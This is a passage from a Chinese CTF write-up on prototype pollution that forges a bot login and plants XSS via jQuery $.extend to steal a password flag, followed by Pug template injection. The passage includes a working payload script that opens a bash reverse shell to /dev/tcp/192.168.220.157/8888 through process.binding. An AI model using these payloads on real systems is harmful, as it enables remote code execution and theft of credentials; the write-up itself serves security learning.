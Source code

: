 那么构造一个类似的应该就可以污染任意参数了.

然后思路是想通过xss让对面的bot将作为flag的password发送出来, 但是和传统的发送url链接让对面bot查看的方式不一样, 我们没有这么个玩意. 那么想要xss怎么办? 只能伪造登录进bot的账号, 再在bot的消息列表中插入xss代码, 等对面查看的时候就可以触发了, 那么怎么伪造登录呢?

查看一下登录验证的代码

![image-20200123224339539](/images/image-20200123224339539.png)

好, 那么可以考虑一下把``login``还有``userid``这俩都给污染成true

![image-20200123224551590](/images/image-20200123224551590.png)

多发几次然后路由访问``/get``去触发一下, 把cookie都删掉重新访问后就会发现成功以userid=1的身份登录了.

登录完之后就要考虑怎么在页面中插入xss代码了

在app.js中有这么一段

![image-20200123233543747](/images/image-20200123233543747.png)

这个``$.extend``相当于合并数组, 这种操作也可以造成原型链污染,``CVE-2019-11358`` 再来看页面渲染的部分

![image-20200123235223013](/images/image-20200123235223013.png)

会把符合条件的hints标签都拿出来渲染一遍, 在这个过程中会将沙盒作用在这些标签上

![image-20200123235208032](/images/image-20200123235208032.png)

也就是为什么在如图地方直接写xss代码会无效的原因

![image-20200123235558341](/images/image-20200123235558341.png)

观察渲染模板``index.ejs``, 发现有一个标签``logger``不在沙盒限制中并且符合条件, 那么, 可以污染hints让他的原型中包含logger从而让hints在遍历的过程中遍历到logger然后去渲染他, logger里的内容自然是post表单了.



![image-20200123233034091](/images/image-20200123233034091.png)

还有一种解法, 等我会调试js了就去补





### jade pug 模板注入

```
const pug=require('pug');

pug.render('#{console.log("1")}');
pug.render('-console.log(1)');
```

renderfile也可以模板注入

```

cmd = 'bash -i >& /dev/tcp/192.168.220.157/8888 0>&1'

payload = "process.binding('spawn_sync').spawn({file:'bash',args:['/bin/bash','-c','%s'],envPairs:['y='],stdio:[{type:'pipe',readable:1}]})" % cmd

pug = ('''-[]["constructor"]["constructor"]("{}")()'''.format(payload)).replace('"','%22').replace("'","%27")
# pug = ('''#{[]["constructor"]["constructor"]("%s")()}'''%(payload)).replace('"','%22').replace("'","%27")
print quote(pug)
```
